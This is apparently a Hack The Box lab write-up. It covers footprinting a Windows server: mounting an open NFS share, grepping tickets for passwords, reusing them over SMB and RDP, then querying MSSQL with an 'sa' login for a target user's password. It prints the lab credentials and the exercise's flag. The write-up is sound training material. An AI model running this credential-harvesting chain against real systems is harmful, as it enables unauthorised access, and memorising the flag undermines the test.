

## Description & Client Objective
>This second server is a server that everyone on the internal network has access to. In our discussion with our client, we pointed out that these servers are often one of the main targets for attackers and that this server should be added to the scope.
>
>Our customer agreed to this and added this server to our scope. Here, too, the goal remains the same. We need to find out as much information as possible about this server and find ways to use it against the server itself. For the proof and protection of customer data, a user named `HTB` has been created. Accordingly, we need to obtain the credentials of this user as proof.
>
>Enumerate the server carefully and find the username "HTB" and its password. Then, submit this user's password as the answer.

---

## Attack Path (Kill Chain)



---

## 1. Initial Reconnaissance & Port Scanning

Fast TCP port discovery:
```shell
sudo nmap -p- --min-rate=5000 $ip -Pn
```

### Open Ports & Services:

| Port        | State | Service     | Notes                                                                                                                      |
| :---------- | :---: | :---------- | :------------------------------------------------------------------------------------------------------------------------- |
| `111/tcp`   | open  | rpcbind     | RPC endpoint mapper, exposes available NFS services                                                                       |
| `135/tcp`   | open  | msrpc       | Windows RPC endpoint mapper                                                                                                |
| `139/tcp`   | open  | netbios-ssn | NetBIOS Session Service for legacy Windows networking                                                                     |
| `445/tcp`   | open  | microsoft-ds| Windows SMB file sharing (target for password reuse & share enumeration)                                                  |
| `2049/tcp`  | open  | nfs         | Network File System export (unrestricted share found)                                                                     |
| `3389/tcp`  | open  | ms-wbt-server| Microsoft Remote Desktop (RDP) service allowing remote graphical login                                                     |
| `5985/tcp`  | open  | wsman       | WinRM HTTP listener (default port for remote PowerShell management)                                                       |
| `47001/tcp` | open  | winrm       | WinRM internal listener port                                                                                               |
| `49664-49681/tcp` | open | msrpc  | Windows dynamic RPC / DCOM high ports                                                                                     |


---

## 2. Service Enumeration & Initial Foothold

### Investigation:
We have found that NFS server is open, then let's try to mount into the share : 
```shell
sudo mount -t nfs $ip:/ <local_folder>/ -o nolock
```

Notice that, there is a folder `TechSupport`, it only give `rwx` access to the owner `nobody`.

> [!info] About Nobody
> `nobody` is built-in account with UID 65534. Our target system is Windows, windows doesn't have UID system as linux. So, when Windows tries to share a folder by `nfs` to linux, Linux couldn't match the `SID System`  from Windows, so Linux automatically map the owner to `nobody`. 
> Interestingly, when we use `sudo` we have the root access. `Root` is a built-in account with `UID 0`. In `nfs`, there is a feature called `root_squash`, this happens to prevent `root` become too `overpower` so it lowers it's access to `nobody`. 

So, to access the `TechSupport` folder, we need to use `sudo` or `root` account :
```shell
sudo ls TechSupport/
```

![[Pasted image 20261027121556.png]]

Found out, there are tons of tickets, let's checkout is there any credential :
```shell
sudo grep -rni "pas" TechSupport/
```

Here : 
```shell
TechSupport/ticket4238791283782.txt:20: 6    password="lol123!mD"
TechSupport/ticket4238791283782.txt:30:16    userpass {
TechSupport/ticket4238791283782.txt:37:23    	minimumPasswordLength=8
```

We've found a credential :
```shell
Conversation with InlaneFreight Ltd

Started on November 10, 2021 at 01:27 PM London time GMT (GMT+0200)
---
01:27 PM | Operator: Hello,.

So what brings you here today?
01:27 PM | alex: hello
01:27 PM | Operator: Hey alex!
01:27 PM | Operator: What do you need help with?
01:36 PM | alex: I run into an issue with the web config file on the system for the smtp server. do you mind to take a look at the config?
01:38 PM | Operator: Of course
01:42 PM | alex: here it is:

 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
 8}
 9
10securesocial {
11
12    onLoginGoTo=/
13    onLogoutGoTo=/login
14    ssl=false
15
16    userpass {
17    	withUserNameSupport=false
18    	sendWelcomeEmail=true
19    	enableGravatarSupport=true
20    	signupSkipLogin=true
21    	tokenDuration=60
22    	tokenDeleteInterval=5
23    	minimumPasswordLength=8
24    	enableTokenJob=true
25    	hasher=bcrypt
26	}
27
28     cookie {
29     #       name=id
30     #       path=/login
31     #       domain="10.129.2.59:9500"
32            httpOnly=true
33            makeTransient=false
34            absoluteTimeoutInMinutes=1440
35            idleTimeoutInMinutes=1440
36    }
---
```

> [!danger] Several Issue
> This happens because of some mistake from user and admin : 
> 1. User shouldn't share their `password` without redacted like `password : *****`
> 2. The Helpdesk application saved every chat in `raw` text without any encryption
> 3. NFS shares is open to all parties (This is the most fatal part)

### Findings / Credentials:
` user="alex" , password="lol123!mD"`

---

## 3. Privilege Escalation (PrivEsc)

### Vector Identified:
Previously, we discovered credentials `alex:lol123!mD` in an SMTP configuration ticket. Although port 25 is not open externally, we can test for password reuse against the SMB service on port 445:

```shell
smbmap -H $ip -u 'alex' -p 'lol123!mD' -d .
```

Result : 
```shell
┌──(nus㉿master)-[~]
└─$ smbmap -H $ip -u 'alex' -p 'lol123!mD' -d .

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 1 authenticated session(s)

[+] IP: 10.129.202.41:445	Name: 10.129.202.41       	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	devshare                                          	READ, WRITE	
	IPC$                                              	READ ONLY	Remote IPC
	Users                                             	READ ONLY	
[*] Closed 1 connections
```

The credential is VALID for `SMB Share`. Now we could try to recursively search for files in `devshare` : 
```shell
smbmap -H $ip -u 'alex' -p 'lol123!mD' -r devshare
```

As the result, there is a file named `important.txt`, we could try to download and see what it is :
```shell
smbmap -H $ip -u 'alex' -p 'lol123!mD' --download 'devshare\important.txt'
```

Now we have found another credential : 
`sa:87N1ns@slls83`

> [!info] About System Administrator
> `sa` is the username of `System Administrator`, it has the highest authority in `MSSQL` server.

Notice there is a share named `users`, let's use smbmap to find out what it is : 
```shell
smbmap -H $ip -u 'alex' -p 'lol123!mD' -r users
```

Results :
```shell
[+] IP: 10.129.202.41:445	Name: 10.129.202.41       	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	devshare                                          	READ, WRITE	
	IPC$                                              	READ ONLY	Remote IPC
	Users                                             	READ ONLY	
	./Users
	dw--w--w--                0 Thu Nov 11 07:25:55 2021	.
	dw--w--w--                0 Thu Nov 11 07:25:55 2021	..
	dr--r--r--                0 Thu Nov 11 07:26:33 2021	alex
	dw--w--w--                0 Tue Dec 15 17:32:10 2020	Default
	fr--r--r--              174 Tue Dec 15 17:25:03 2020	desktop.ini
[*] Closed 1 connections
```

Here we know this is a `Windows Desktop GUI`. Notice that `port 3389` is open, this allow us to remotely control the GUI system. Let's check what's inside the desktop : 
```shell
xfreerdp /v:10.129.202.41 /u:alex /p:'lol123!mD' /cert:ignore /dynamic-resolution +clipboard
```

![[Pasted image 20261027165941.png]]

So the creds is valid and could be used in the SQL Server Management

---

## 4. Objective / Flag Extraction
### Execution Plan
Now let's findout what's inside the database : 
```shell
SELECT name FROM sys.databases;
```
![[Pasted image 20261027170707.png]]

Database accounts looks promising to find user `HTB`, let's use the database : 
```sql
USE accounts
SELECT name FROM sys.tables;
```

There is only one tables `devsacc`, then let's find out what is inside it : 
```sql
SELECT * FROM devsacc;
```
![[Pasted image 20261027170945.png|157]]

So it was a list of `username` and `password`, then let's find out username `HTB` : 
```sql
SELECT * FROM devsacc
WHERE name='HTB'
```
![[Pasted image 20261027171108.png]]

Bingo, we've found the password for user `HTB`.

---

# Flag / Proof : `lnch7ehrdn43i7AoqVPK4zWR`

---

## 5. Why This Happened (Root Cause & Human Error)
* **Root Causes:**
  1. **Unrestricted NFS Share:** The NFS service (port 2049) was exported without IP/subnet restrictions, allowing unauthorized network users to mount and browse internal helpdesk archives (`TechSupport`).
  2. **Plaintext Credential Logging:** The support ticketing platform logged raw customer chat transcripts without automated masking or redacting sensitive data (such as passwords provided by `alex`).
  3. **Unsecured Credential Storage in File Shares:** Superuser database credentials (`sa`) were stored in a plaintext file (`important.txt`) within an SMB share (`devshare`) that had read permissions granted to standard domain/local users.
  4. **Password Reuse:** The user password for `alex` (`lol123!mD`) provided in an SMTP configuration was reused for local Windows authentication (SMB file sharing and RDP remote desktop).
* **Business Impact:**
  - **Full Database Compromise:** An attacker gained unauthorized access to the internal `accounts` database and extracted developer credentials from the `devsacc` table (including the client's test user `HTB`).
  - **Host Takeover Risk:** Control over the MSSQL `sa` (System Administrator) account enables arbitrary operating system command execution via `xp_cmdshell`, leading to complete host compromise.

---

## 6. Key Takeaways & Lessons Learned
* **New Concepts Learned:**
  - **NFS Root Squashing Mechanism:** When mounting a Windows NFS export on Linux, files owned by `nobody` (UID 65534) with `700` permissions could only be accessed using `sudo` because `root_squash` mapped UID 0 (`root`) directly to UID 65534 (`nobody`).
  - **Multi-Stage Pivoting:** A linear footprinting and pivoting chain: NFS export reconnaissance ➔ Ticket credential harvesting (`alex`) ➔ SMB share enumeration ➔ Database administrator credential discovery (`sa`) ➔ RDP GUI / SSMS session ➔ Target database extraction.
  - **T-SQL Footprinting Hierarchy:** Navigating MSSQL metadata via `sys.databases`, `INFORMATION_SCHEMA.TABLES`, and targeted `WHERE` filters to locate sensitive tables without disrupting server operations.
* **Rabbit Holes Avoided:**
  - **Hunting for SMTP Port 25:** Although the support ticket discussed an SMTP configuration issue, port 25 was closed on the target host (it pointed to an external hostname `smtp.web.dev.inlanefreight.htb`). The actionable vector was testing password reuse across other open services (SMB and RDP).
  - **Forcing WinRM (Port 5985) on Standard Users:** The discovered user `alex` did not belong to the Remote Management Users group, preventing WinRM shell access; pivoting to RDP (port 3389) provided the necessary interactive session.
  - **Assuming Port 1433 is Inactive:** MSSQL was not exposed externally on the network adapter, but was actively running on `localhost`; accessing it locally via RDP (SSMS) or local `sqlcmd` execution bypassed external network firewall rules.

---

## Related Concepts : 
[[showmount]], [[mount]], [[smbclient]], [[CrackMapExec]], [[MSSQL Queries]], [[SQL Syntax & Footprinting]], [[_Network Commands]]
